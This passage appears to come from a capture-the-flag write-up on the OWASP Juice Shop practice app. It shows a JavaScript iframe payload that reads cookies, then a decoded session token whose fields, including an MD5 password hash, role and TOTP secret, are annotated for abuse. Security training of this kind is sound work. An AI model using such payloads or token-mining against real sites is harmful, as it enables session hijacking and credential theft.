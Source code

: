 ```bash
<iframe src="javascript:console.log(document.cookies)">
```

Here's the result :

![Cookie](/images/juiceshop/Injection/Injection1.png)

Here's the decode result :

![Cookie](/images/juiceshop/Injection/Injection2.png)
We have a lot of intel about the user by just looking at the JWT token

```json
// Header
{
  "typ": "JWT",
  "alg": "RS256"
}
// Payload
{
  "status": "success",
  "data": {
    "id": 22,   // << intressting for a database probably
    "username": "",
    "email": "test@test.com",
    "password": "147538da338b770b61e592afc92b1ee6",     // << ='(
    "role": "customer",             // << intressting to 
    "deluxeToken": "",              // << if "deluxe" user 
    "lastLoginIp": "0.0.0.0",       // << ='(
    "profileImage": "/assets/public/images/uploads/22.png",
    // by default
    // "profileImage": "/assets/public/images/uploads/default.svg",  // could be useful
    "totpSecret": "",               // << ??
    "isActive": true,
    "createdAt": "2021-01-28 22:59:17.696 +00:00",
    "updatedAt": "2021-01-28 22:59:17.696 +00:00",
    "deletedAt": null   // << token or user data ?
  },
  "iat": 1611874774,
  "exp": 1611892774
}
```

We could know

- Which role the user who've done a request have.
- The last login ip of this user.
- The md5 password (md5 is deprecated, see figured just below)
- Email password -> which could be devastating, a lot of users reused their password on several webstites.
- An id which is probably used within a database
- Fields that could be intressting for some feature of the website - `deluxeToken` - `totpSecret`
